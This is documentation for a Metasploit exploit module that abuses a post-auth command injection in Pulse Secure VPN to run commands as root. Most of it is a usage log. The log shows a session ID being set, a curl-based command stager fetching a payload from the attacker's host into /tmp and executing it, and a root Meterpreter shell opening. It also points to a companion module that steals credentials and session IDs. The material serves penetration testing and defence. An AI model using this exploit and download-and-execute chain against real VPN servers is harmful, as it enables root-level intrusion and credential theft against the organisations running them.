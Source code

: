 ## Introduction

This module exploits a post-auth command injection in the Pulse Secure
VPN server to execute arbitrary commands as root.

Please see related module `auxiliary/gather/pulse_secure_file_disclosure`
for a pre-auth file read that is able to obtain plaintext and hashed
credentials, plus session IDs that may be used with this exploit.

A valid administrator session ID is required in lieu of untested SSRF.

## Targets

```
Id  Name
--  ----
0   Unix In-Memory
1   Linux Dropper
```

## Options

**SID**

Set this to a valid administrator session ID. Typically retrieved using
the `auxiliary/gather/pulse_secure_file_disclosure` module.

## Usage

```
msf5 exploit(linux/http/pulse_secure_cmd_exec) > set sid 676f5f892e8c4a6419f10564f9e9d857
sid => 676f5f892e8c4a6419f10564f9e9d857
msf5 exploit(linux/http/pulse_secure_cmd_exec) > run

[*] Started reverse TCP handler on 127.0.0.1:[redacted]
[+] Setting session cookie: DSID=676f5f892e8c4a6419f10564f9e9d857
[*] Obtaining CSRF token
[+] CSRF token: 6b0e020e1de8c68c043ea0e4f663b7a5
[*] Executing Linux Dropper target
[*] Using URL: https://0.0.0.0:[redacted]/HSEjp77
[*] Local IP: https://[redacted]:[redacted]/HSEjp77
[*] Generated command stager: ["curl -kso /tmp/qlUqDxCU https://[redacted]:[redacted]/HSEjp77", "chmod +x /tmp/qlUqDxCU", "/tmp/qlUqDxCU", "rm -f /tmp/qlUqDxCU"]
[*] Executing command: env /home/bin/curl -kso /tmp/qlUqDxCU https://[redacted]:[redacted]/HSEjp77
[*] Yeeting exploit at https://[redacted]/dana-admin/diag/diag.cgi
[*] Triggering payload at https://[redacted]/dana-na/auth/setcookie.cgi
[*] Client 127.0.0.1 (curl/7.19.7 (i686-redhat-linux-gnu) libcurl/7.19.7 OpenSSL/1.0.1h zlib/1.2.3 libidn/1.18) requested /HSEjp77
[*] Sending payload to 127.0.0.1 (curl/7.19.7 (i686-redhat-linux-gnu) libcurl/7.19.7 OpenSSL/1.0.1h zlib/1.2.3 libidn/1.18)
[+] Payload execution successful
[*] Command Stager progress -  63.96% done (71/111 bytes)
[*] Executing command: env chmod +x /tmp/qlUqDxCU
[*] Yeeting exploit at https://[redacted]/dana-admin/diag/diag.cgi
[*] Triggering payload at https://[redacted]/dana-na/auth/setcookie.cgi
[+] Payload execution successful
[*] Command Stager progress -  87.39% done (97/111 bytes)
[*] Executing command: env /tmp/qlUqDxCU
[*] Yeeting exploit at https://[redacted]/dana-admin/diag/diag.cgi
[*] Triggering payload at https://[redacted]/dana-na/auth/setcookie.cgi
[*] Meterpreter session 1 opened (127.0.0.1:[redacted] -> 127.0.0.1:53200) at 2019-11-12 02:05:40 -0600
[!] Payload execution may have failed
[*] Command Stager progress - 102.70% done (114/111 bytes)
[*] Executing command: env rm -f /tmp/qlUqDxCU
[*] Yeeting exploit at https://[redacted]/dana-admin/diag/diag.cgi
[*] Triggering payload at https://[redacted]/dana-na/auth/setcookie.cgi
[+] Payload execution successful
[*] Command Stager progress - 123.42% done (137/111 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : [redacted]
OS           :  (Linux 2.6.32-00486-gddd7e32-dirty)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
